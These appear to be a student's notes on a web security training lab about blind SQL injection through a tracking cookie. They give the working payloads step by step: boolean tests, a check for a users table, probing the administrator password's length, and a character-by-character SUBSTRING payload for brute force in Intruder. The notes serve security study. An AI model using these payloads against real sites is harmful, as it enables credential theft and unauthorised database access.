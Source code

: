 Lab 11
Vulnerable Parameter - Tracking Cookies

confirm the parameter is vulnerable to blind SQL Injection:

' AND '1'='1

receives a welcome back message!

select tracking id from tracking table where tracking id equals = #trackingid

(2) confirm that we have a users table
select tracking=id from tracking-table where trackingid='dfasdfagew' and (select 'x' from users LIMIT 1)='x'--'

x is an arbitrary value- what this query does: if there is a users table output x for each entry in the users table. If the users table has 5 users we should get 5 rows that have x in them. Destroys the query so limit it to one entry. Output the value x for each entry in the user's table. 

 outputs x for the first entry in the users table if it exists.
 
 3.) check to see if administrator is valid 
 
 AND (SELECT username FROM users WHERE username='administrator')='administrator
 
 4.) Enumerate the password of the administrator user
 
 find the length using the following query:
 'AND (SELECT 'x' FROM users WHERE username='administrator' AND LENGTH(password) > 1)='x
 
 after bruteforcing in intruder- I simply brutefofrced the length and found that it was greater than 19 but less than 21 so its 20
 'AND+(SELECT+'x'+FROM+users+WHERE+username%3d'administrator'+AND+LENGTH(password)+>+19)%3d'x; 
 
 
 5.) find each character in intruder
 
  AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
 
 



